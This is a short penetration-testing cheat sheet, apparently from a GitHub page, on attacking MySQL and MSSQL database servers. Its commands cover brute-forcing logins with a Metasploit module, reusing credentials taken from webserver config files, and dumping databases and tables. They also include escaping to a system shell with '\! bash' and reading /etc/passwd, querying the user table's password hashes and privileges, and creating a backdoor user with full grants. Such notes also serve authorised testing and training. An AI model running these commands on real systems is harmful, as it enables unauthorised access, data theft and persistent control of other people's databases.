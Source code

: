 # Exploit

## Brute Force
```
msf > use auxiliary/admin/mssql/mssql_enum
```
```
mysql --host=[IP] -u [root] -p
```
  - Then enter the password in the CLI prompt.

## Re-use Credentials
Look at the webserver configuration files to see if there is a username and password in them for the DB.

## After Initial Access Is Gained
### Re-enumerate
```
> show databases; 
> show schemas; 
```
  - You can then set the current working database with: > USE [database]; this needs to happen to interact with and display contents of tables within the database. 
```
> show tables; 
> show columns from [table]; 
> SELECT * FROM [table];
```

### Attempt Shell
```
> \! cat /etc/passwd 
> \! bash 
```

### Attempt Privelege Escalation

#### Current Level Access
```
>select user(); 
>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()'; 
```
#### Create New User and Grant Privleges
```
>create user test identified by 'test'; 
> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```
